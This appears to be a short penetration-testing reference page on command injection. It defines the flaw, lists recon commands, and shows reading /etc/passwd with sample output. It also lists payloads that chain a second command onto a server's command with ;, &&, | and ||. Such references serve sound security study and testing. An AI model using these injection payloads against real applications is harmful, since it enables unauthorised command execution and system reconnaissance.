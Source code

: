 ```yaml
---
description: >-
  Below are some references for the Command Injection attacks. It's also known
  as shell injection
---
```


# **Command Injection** #

## **What is Command injection?** ##

Command injection vulnerabilities occur when user-controllable data is processed by a shell command interpreter, the information you submitted to the application was used as part of a command run directly by the system. Command injection vulnerabilities are serious findings, as they allow an attacker to execute commands on the underlying system hosting the web application.

### **General Commands** ###

| Purpose of command    | Linux         | Windows         |
| --------------------- | ------------- | --------------- |
| Name of current user  | `whoami`      | `whoami`        |
| Operating system      | `uname -a`    | `ver`           |
| Network configuration | `ifconfig`    | `ipconfig /all` |
| Network connections   | `netstat -an` | `netstat -an`   |
| Running processes     | `ps -ef`      | `tasklist`      |

### **Exploiting the command injection** ###

### **Basic commands** ###

```markup
cat /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
```

### **Chaining commands** ###

```markup
original_cmd_by_server ; ls
original_cmd_by_server && ls
original_cmd_by_server | ls
original_cmd_by_server || ls    Only if the first cmd fail
```
